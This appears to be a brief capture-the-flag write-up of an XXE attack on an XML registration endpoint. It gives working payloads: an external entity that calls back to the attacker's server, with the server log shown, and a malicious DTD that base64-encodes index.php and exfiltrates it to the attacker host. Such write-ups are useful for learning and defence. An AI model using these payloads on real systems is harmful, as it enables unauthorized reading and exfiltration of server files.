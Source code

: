 # Entry point

Example of an xml file that is passed to backend
```
<?xml version="1.0" encoding="UTF-8"?>
<root>
  <method>POST</method>
  <uri>/auth/register</uri>
  <user>
    <username>username_value</username>
    <password>password_value</password>
  </user>
</root>
```

We can check for XXE vuln by declaring the following entity inside the ```<?xml>``` and hosting an http server
```
<!DOCTYPE test [ 
<!ENTITY % xxe SYSTEM "http://10.10.16.8"> 
%xxe;
]>
```
Attacker machine
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.192 - - [12/May/2023 12:35:19] "GET / HTTP/1.1" 200 -
```

we can host a malicious evil.dtd that exfiltrates file contents
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.16.8/evil.dtd">%xxe;]>>
```
```
<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource=index.php'>
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.16.8/?exfil=%file;'>">
%eval;
%exfiltrate;
```
